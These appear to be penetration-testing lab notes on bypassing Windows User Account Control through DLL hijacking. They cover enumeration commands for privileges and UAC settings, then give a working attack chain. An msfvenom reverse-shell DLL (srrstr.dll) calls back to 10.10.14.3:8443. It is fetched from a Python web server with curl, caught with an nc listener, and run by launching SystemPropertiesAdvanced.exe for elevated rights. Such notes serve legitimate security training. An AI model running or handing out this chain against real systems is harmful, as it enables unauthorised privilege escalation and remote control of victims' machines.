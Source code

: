 User Account Control (UAC) is a feature that enables a consent prompt for elevated activities.

"Do you want to allow this app to make changes to your device?"

**UAC Bypasses
https://github.com/hfiref0x/UACME

**Checking Current User
```
whoami /user
```

**Confirming Admin Group Membership
```
net localgroup administrators
```

**Reviewing User Privileges
```
whoami /priv
```

**Confirming UAC is Enabled
```
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```

**Checking UAC Level
```
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```
- 0x5 is the highest level UAC which has "Always notify" enabled

**Checking Windows Version
```
[environment]::OSVersion.Version
```
- Use this cross-reference for Windows release: https://en.wikipedia.org/wiki/Windows_10_version_history


When attempting to locate a DLL, Windows will use the following search order:
1. The directory from which the application loaded.
2. The system directory C:\Windows\System32 for 64-bit systems.
3. The 16-bit system directory C:\Windows\System (not supported on 64-bit systems)
4. The Windows directory.
5. Any directories that are listed in the PATH environment variable.


**Reviewing Path Variable
```
cmd /c echo %PATH%
```

**Generating Malicious srrstr.dll DLL
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll
```

**Starting Python HTTP Server on Attack Host
```
sudo python3 -m http.server 8080
```

**Downloading DLL Target
```
curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```

**Starting nc Listener on Attack Host
```
nc -lvnp 8443
```

**Testing Connection
```
rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```
- we get normal user rights

**Executing SystemPropertiesAdvanced.exe on Target Host
```
tasklist .svc | findstr "rundll32"
taskkill /PID 7044 /F
taskkill /PID 6300 /F
taskkill /PID 5360 /F
C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```
